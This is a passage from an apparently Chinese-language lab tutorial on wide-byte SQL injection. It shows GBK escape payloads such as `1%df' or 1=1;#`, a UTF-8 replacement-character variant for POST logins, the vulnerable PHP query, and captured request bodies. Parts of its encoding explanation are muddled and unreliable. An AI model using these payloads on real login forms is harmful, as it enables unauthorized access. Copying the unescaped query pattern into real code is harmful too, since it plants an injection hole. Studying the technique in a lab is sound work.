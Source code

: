  正常来说，get的请求方式用：`1%df' or 1=1;#` 就可以逃逸，因为当插入反斜杠\，而反斜杠的十六进制是%5c，而url的编码是ASCII，转化为gbk的时候`%df%5c`会变成`縗`，形成单引号逃逸.

这里一个post的例子比较特殊：

《sql注入天书》中介绍因 POST 不能进行 URLencode，可使用 UTF-8 转 UTF-16 或 UTF-32。

可以利用工具将   `'`   从utf-8转化为utf-16 为`�`，构造出这个：

```sql
�' or 1=1;#
```

<img src="../images/sql_inject/sql_inject_upper_encode_1.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"  height="200px"/>

发现登入成功了。

查看源码

```php
mysql_query("SET NAMES gbk");
@$sql="SELECT username, password FROM users WHERE username='$uname' and 	password='$passwd' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

**为什么可以？？？？**

用brupsuite抓包看一下：

```php
uname=%EF%BF%BD%27+or+1%3D1%3B%23&passwd=%EF%BF%BD%27+or+%C2%B71%3D1%3B%23&submit=Submit
```

发现这个，通过brupsuite，可以知道：`%EF%BF%BD` 就是 `�` ，

当反斜杠插入的时候，形成`%EF%BF %BD%5C`，而gbk编码就是两个字节进行转换，实现了反斜杠的逃逸。

而当输入的是：`%DF' or 1=1;#` 形成是：

```php
uname=%25DF%27or+1%3D1%23&passwd=%25DF%27or+1%3D1%23&submit=Submit
```
